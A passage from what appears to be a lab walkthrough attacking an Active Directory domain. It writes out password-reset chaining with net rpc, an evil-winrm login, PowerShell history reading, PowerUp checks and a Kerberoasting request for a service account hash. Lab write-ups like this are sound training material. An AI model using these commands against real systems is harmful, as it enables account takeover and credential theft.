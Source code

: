 ![image.png](image%2017.png)

Checking for Reachable High Value targets I see the chain:

![image.png](image%2018.png)

I am gonna change passwords to reach `Chirstopher.Lewis`.

```bash
net rpc password "Iain.White" "newP@ssword202" -U "nagoya-industries.com"/"Andrea.Hayes"%"Nagoya2023" -S $IP
```

![image.png](image%2019.png)

```bash
net rpc password "Christopher.Lewis" "newP@ssword203" -U "nagoya-industries.com"/"Iain.White"%"newP@ssword202" -S $IP
```

![image.png](image%2020.png)

```bash
evil-winrm -i $IP -u 'Christopher.Lewis' -p 'newP@ssword203'
```

![image.png](image%2021.png)

## Shell as Christopher.Lewis

Checking Users:

![image.png](image%2022.png)

Checking Powershell History:

```powershell
type C:\Users\Christopher.Lewis\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![image.png](image%2023.png)

Running `PowerUp.ps1`:

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Checking for Kerberoastable Accounts I see `svc_mssql`:

![image.png](image%2024.png)

I am gonna obtain its hash from Linux and crack it:

```bash
GetUserSPNs.py -dc-ip $IP nagoya-industries.com/Christopher.Lewis -request
```
